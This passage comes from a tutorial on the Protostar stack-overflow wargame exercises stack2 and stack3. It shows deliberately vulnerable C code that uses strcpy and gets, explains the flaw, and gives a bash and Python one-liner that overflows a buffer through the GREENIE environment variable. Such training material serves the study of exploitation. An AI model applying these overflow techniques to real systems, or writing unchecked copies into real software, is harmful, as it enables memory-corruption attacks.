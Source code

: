 ```c

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
```

This exercise is very similar to the one before but carries a certain nuance. Let's look at the documentation for the `getenv()` function if you don't know about it. This function searches the environment variable list for a variable named `name`, and returns a pointer to the corresponding string value. In the above case, our program is vulnerable at the line:

```
strcpy (buffer, variable);
```

Do you know why? Following this code, our program retrieves what our environment variable "GREENIE" contains and puts everything in buffer without checking the size. So let's exploit this using the below schema.

```
GREENIE = [PADDING OF 64] [0x0d0a0d0a]
```

```bash
cd /opt/protostar/bin/
GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'")
export GREENIE
echo $GREENIE
./stack2
```

**Output**

![image-13](https://raw.githubusercontent.com/cybsploit/tutorials/master/medias/5afb15034ccc33d4750897090b47a57e-13.png "Image-13")

* * *

###### FOURTH EXERCISE "STACK THREE"

This exercise will be the last one we will see in this article, here is the code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (* fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

```